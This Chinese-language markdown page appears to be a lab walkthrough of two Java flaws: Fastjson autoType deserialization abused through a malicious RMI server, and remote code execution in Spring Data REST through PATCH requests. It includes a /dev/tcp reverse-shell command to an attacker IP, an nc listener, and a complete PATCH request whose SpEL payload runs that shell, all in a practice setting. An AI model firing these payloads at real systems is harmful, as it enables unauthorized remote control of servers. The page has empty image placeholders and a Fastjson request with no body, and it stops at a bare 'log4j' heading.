





# fastjson反序列化漏洞

> 漏洞背景

- 漏洞`原理`:Fastjson 在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。fastjson 默认使用 @type 指定反序列化任意类，攻击者可以通过在 java 常见环境中寻找能够构造恶意类的方法，通过反序列化的过程中调用的 getter/setter 方法，以及目标成员变量的注入来达到传参的目的，最终形成恶意调用链。

- 利用`流程`

  1.首先开启HTTP服务器，并将恶意类放在目录下
  2.开启恶意RMI服务器
  3.攻击者控制url参数为上一步开启的恶意RMI服务器地址
  4.恶意RMI服务器返回ReferenceWrapper类
  5.目标 (JNDI Client)在执行lookup操作的时候，在decodeObject中将ReferenceWrapper变成Reference
  类，然后远程加载并实例化我们的Factory类(即远程加载我们HTTP服务器上的恶意类)，在实例化时触发静
  态代码片段中的恶意代码

### 环境搭建

- 安装JDK1.8[[下载地址](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)]

```sh
mkdir -p /usr/local/java
cp jdk-8u251-linux-x64.tar.gz  /usr/local/java
tar -zxvf jdk-8u251-linux-x64.tar.gz
```

- 配置环境变量

```sh
vim /etc/profile

# 进入环境变量
JAVA_HOME=/usr/local/java/jdk1.8.0_251 
PATH=$PATH:$HOME/bin:$JAVA_HOME/bin
export JAVA_HOME
export PATH

# 通知Java目录
update-alternatives --install "/usr/bin/java" "java" "/usr/local/java/jdk1.8.0_251/bin/java" 1
update-alternatives --install "/usr/bin/javac" "javac" "/usr/local/java/jdk1.8.0_251/bin/javac" 1
update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_251/bin/javaws" 1
update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_251/bin/javaws" 1
```

- 切换Java版本

```sh
update-alternatives --config java
```

------

- 利用`marshalsec`编译开启`RMI`服务
- 利用marshalsec编译并开启RMI服务:
  1. git clone https://github.com/mbechler/marshalsec.git 下载项目文件
  2. apt-get install maven 安装maven项目管理工具
  3. cd marshalsec 切换至marshalsec目录
  4. mvn clean package -DskipTests 使用maven项目管理工具打包文件
  

### 目录结构


### 编辑`恶意类`代码



```php
//使用javac编译成.class
javac fastjsonshell.java
```



```cmd
//在当前目录开启web服务
python3 -m http.server 9090
```


```cmd
//利用marshalsec项目启动RMI服务器,监听9999端口
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.136.219:9090#fastjsonshell" 9999
```


```cmd
//监听 8888 端口
nc -lvvp 8888
```

### BP抓包发送POST数据

```http
POST / HTTP/1.1
Host: 192.168.41.54:8090
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/json
Content-Length: 0
```


------

# Spring Data Rest远程命令执行命令

> 漏洞背景

- 介绍:Spring-data-rest服务器在处理PATCH请求时，攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码。
- 影响`版本`
  Spring Data REST versions < 2.5.12,2.6.7, 3.0 RC3
  Spring Boot version < 2.0.0M4
  Spring Data release trains < Kay-RC3

```python
//使用python交互式命令行将 执行命令转化成为 ascii
",".join(map(str, (map(ord,"bash -i>&/dev/tcp/192.168.41.219/8888 0>&1"))))

'98,97,115,104,32,45,105,62,38,47,100,101,118,47,116,99,112,47,49,57,50,46,49,54,56,46,52,49,46,50,49,57,47,56,56,56,56,32,48,62,38,49'
```


------



------


------


------

- 发现不对劲以后对`http://192.168.41.54:8080/customers/1`抓包
- 修改为`PATCH`请求



------

- `Base64`编码 


- `Ascii`编码



- 去掉多于的部分

```ascii
98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,81,120,76,106,73,120,79,83,56,52,79,68,103,52,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125
```

```php
PATCH /customers/1 HTTP/1.1
Host: 192.168.41.54:8080
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
If-None-Match: "0"
If-Modified-Since: Sun, 22 Sep 2024 08:41:10 GMT
Connection: keep-alive
Content-Type: application/json-patch+json
Content-Length: 458

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,81,120,76,106,73,120,79,83,56,52,79,68,103,52,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname", "value": "vulhub" }]
```


> log4j*